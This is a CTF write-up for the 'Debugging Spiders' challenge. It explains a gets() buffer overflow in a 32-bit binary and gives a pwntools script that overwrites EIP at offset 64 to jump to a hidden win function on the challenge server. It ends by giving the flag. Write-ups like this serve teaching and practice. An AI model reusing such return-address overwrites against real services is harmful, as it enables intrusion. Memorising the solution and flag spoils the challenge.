



# Debugging Spiders

## Problem

<details>

<summary>Description</summary>

Your friend is a lazy developer who likes spiders a lot for some reasons. One day, he is making a new, refined app called new\_spider. He brags about how this app is so sophisticated it can give you a flag by using one of its function. Sadly, it is yet to be implemented. CAn you, by force, make the program run the yet to be implemented function?

```c
nc 34.124.192.13 27302
```

</details>

## Solution

Basic file check and checksec reveals that the binary is ELF 32-Bit, dynamically linked not stripped and the protection enabled is NX and partial RELRO

<figure><figcaption><p>Decompiled Main Function</p></figcaption></figure>

Looking at the decompiled main function, its calling the `gets()` function which don't specity how much buffer it will read. So a Buffer Overflow is a possibility here.

<figure><figcaption><p>Decompiled secret_spider Function</p></figcaption></figure>

We also noticed that there's a secret function that's never called named `secret_spider()`. Taking a look at it, it seems obvious that this is the win function.&#x20;

<figure><figcaption><p>Offset</p></figcaption></figure>

Next we use to gdb-pwndbg's cyclic tool to determine the offset to the EIP and it was found at 64 bytes. Next I have written the following code to get the flag. Run with `python solve.py REMOTE` to run it againts the server&#x20;


```python
#!user/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './spiders'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = '34.124.192.13'
port = 27302

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

io = start()

# =========================================================
#                         ADDRESSES
# =========================================================
win = 0x080491a6

# =========================================================
#                         EXPLOITS
# =========================================================

# Got manually through cyclic gdb-pwndbg
offset = 64

# flattening  payload here
payload = flat({
    offset: [
        win
    ]
})

# sending payload
io.sendline(payload)

io.interactive()
```


## Flag

> _**FindITCTF{Ju57\_7h3\_W4y\_1t\_iz}**_
